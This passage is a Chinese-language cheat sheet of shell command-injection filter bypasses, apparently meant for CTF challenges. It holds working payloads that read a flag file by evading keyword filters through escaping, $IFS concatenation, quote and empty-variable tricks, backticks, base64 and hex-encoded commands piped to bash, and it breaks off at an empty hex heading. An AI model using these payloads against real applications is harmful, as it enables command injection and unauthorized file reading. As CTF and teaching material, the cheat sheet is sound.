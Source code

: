 ### 使用转义符号

```php
ca\t /fl\ag
cat fl''ag
```

### 拼接法

```php
a=fl;b=ag;cat$IFS$a$b
```

### 引号绕过

```php
c'at'|c"at"|c``at|c\at
```

### 使用空变量$\*和$@，$x,${x}绕过

```php
ca$*t flag
ca$@t flag
ca$5t flag
ca${5}t flag
```

### 反引号绕过

```php
ls
cat `ls`
```

### 编码绕过

#### Base64

```sh
echo 'cat' | base64
`echo 'Y2F0Cg==' | base64 -d` flag
```

#### shellcode编码

```sh
cat flag.php -> \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70
#经测试，发现在php的ping环境上执行失败。在linux系统上执行成功
$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70")
{printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}|bash
`{printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}`
```

#### 16进制
